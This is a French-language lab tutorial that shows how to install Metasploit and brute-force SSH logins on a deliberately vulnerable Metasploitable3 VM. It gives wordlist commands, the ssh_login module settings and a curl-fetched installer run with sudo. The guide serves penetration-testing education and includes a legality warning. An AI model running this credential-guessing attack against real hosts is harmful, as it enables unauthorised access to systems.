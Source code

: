 ## LAB6 - PARTIE2 - Configuration et Utilisation de Metasploit pour Attaque par Force Brute SSH

# 1 -  Description
Ce document fournit des instructions détaillées pour utiliser Metasploit afin de lancer une attaque par force brute SSH contre une machine cible, en l'occurrence Metasploitable3. Ce guide couvre la préparation des fichiers nécessaires, la configuration de Metasploit, et le lancement de l'attaque.

# 2 -  Prérequis
- Un ordinateur ou une machine virtuelle avec Ubuntu 22.04 installé.
- Accès à un compte avec des privilèges d'administrateur.
- **Système d'exploitation**: Linux (Ubuntu 22.04 préféré)
- **Metasploit Framework installé**
- **Accès administratif sur la machine où Metasploit est installé**
- **Machine cible configurée et accessible sur le réseau**

# 3 - Ajout de l'Utilisateur `eleve` au Fichier sudoers
1. **Ouvrez un terminal.**
2. Devenez superutilisateur pour modifier les fichiers de configuration système:
   ```bash
   su
   ```
3. Éditez le fichier sudoers pour ajouter des privilèges administratifs à `eleve`:
   ```bash
   visudo
   ```
4. Ajoutez la ligne suivante pour donner à `eleve` les droits sudo:
   ```
   eleve ALL=(ALL) ALL
   ```
5. **Enregistrez et quittez** l'éditeur. Utilisez `CTRL+X`, suivi de `Y` pour enregistrer si vous utilisez `nano` comme éditeur dans `visudo`.

6. Tapez `exit` pour retourner à la session de l'utilisateur `eleve`.


# 4 - (MÉTHODE#1) Installation de Metasploit (si non installé)
1. Ouvrez un terminal.
2. Exécutez les commandes suivantes pour installer Metasploit:
   ```bash
   sudo apt update
   sudo apt install metasploit-framework
   ```
# 4 - (MÉTHODE#2) Installation de Metasploit Framework
1. **Ouvrez un terminal sous le compte `eleve`.**
2. Mettez à jour les paquets et installez les dépendances:
   ```bash
   sudo apt update
   sudo apt install curl gnupg2 software-properties-common
   ```
3. **Ajoutez le dépôt officiel de Metasploit**:
   ```bash
   curl https://raw.githubusercontent.com/rapid7/metasploit-omnibus/master/config/templates/metasploit-framework-wrappers/msfupdate.erb > msfinstall
   chmod 755 msfinstall
   sudo ./msfinstall
   ```
4. **Vérifiez l'installation** en démarrant Metasploit:
   ```bash
   msfconsole
   ```



# 5 - Étape 1: Préparation des Fichiers de Noms d'Utilisateurs et de Mots de Passe
1. **Création des fichiers** :
   - Créez les fichiers contenant les noms d'utilisateurs et les mots de passe que vous prévoyez d'utiliser pour l'attaque.
     ```bash
     echo -e "root\nadmin\nuser\ntest\nguest\ninfo\noperator" > /home/eleve/usernames.txt
     echo -e "password\n123456\nadmin\nguest\n123123\npassword1\nqwerty\n12345\n123456789\ntest" > /home/eleve/passwords.txt
     ```

2. **Modification des permissions** :
   - Assurez-vous que les fichiers sont lisibles.
     ```bash
     chmod 644 /home/eleve/usernames.txt
     chmod 644 /home/eleve/passwords.txt
     ```

3. **Changement de propriétaire** :
   - Changez le propriétaire des fichiers pour garantir que Metasploit peut y accéder.
     ```bash
     sudo chown $(whoami) /home/eleve/usernames.txt
     sudo chown $(whoami) /home/eleve/passwords.txt
     ```

# 6 - Étape 2: Déplacement des Fichiers dans un Répertoire Accessible par Metasploit
- Déplacez les fichiers dans un répertoire où Metasploit a les permissions de lecture.
  ```bash
  sudo mv /home/eleve/usernames.txt /snap/metasploit-framework/
  sudo mv /home/eleve/passwords.txt /snap/metasploit-framework/
  ```

# 7 - Étape 3: Configuration de Metasploit

1. ** Initialisation de la Base de Données Metasploit
- Initialisez la base de données PostgreSQL pour Metasploit** (ce qui améliore les performances de Metasploit et permet la persistance des données entre les sessions):
   ```bash
   msfdb init
   ```
2. **Lancement de Metasploit** :
   - Ouvrez Metasploit en utilisant la commande suivante :
     ```bash
     msfconsole
     ```

3. **Configuration du module SSH** :
   - Configurez Metasploit pour utiliser les fichiers déplacés et ciblez la machine appropriée.
     ```bash
     use auxiliary/scanner/ssh/ssh_login
     set RHOSTS 172.28.128.3
     set USER_FILE /snap/metasploit-framework/usernames.txt
     set PASS_FILE /snap/metasploit-framework/passwords.txt
     set VERBOSE true
     ```
## Remarque : 172.28.128.3 est l'adresse de la machine metasploitable3 (host only adapter regardez le lab précédent ) dans mon cas


# 7 -  Étape 4: Lancement de l'Attaque
- Exécutez le module pour commencer l'attaque.
  ```bash
  run
  ```

### Conseils de Sécurité
- **Permissions**: Vérifiez régulièrement que les permissions des fichiers sont correctement configurées pour éviter tout accès non autorisé.
- **Légalité**: Assurez-vous d'avoir l'autorisation explicite de tester la machine cible. L'utilisation de Metasploit sans consentement est illégale.

### Dépannage
- Si des problèmes surviennent, vérifiez les logs de Metasploit pour des détails sur les erreurs. Assurez-vous que les chemins des fichiers sont corrects et que les fichiers ne sont pas corrompus.

---

Ce document devrait vous fournir une base solide pour l'utilisation sécurisée et efficace de Metasploit dans vos tests de pénétration. Assurez-vous de suivre les meilleures pratiques de sécurité et de conformité légale lors de vos tests.
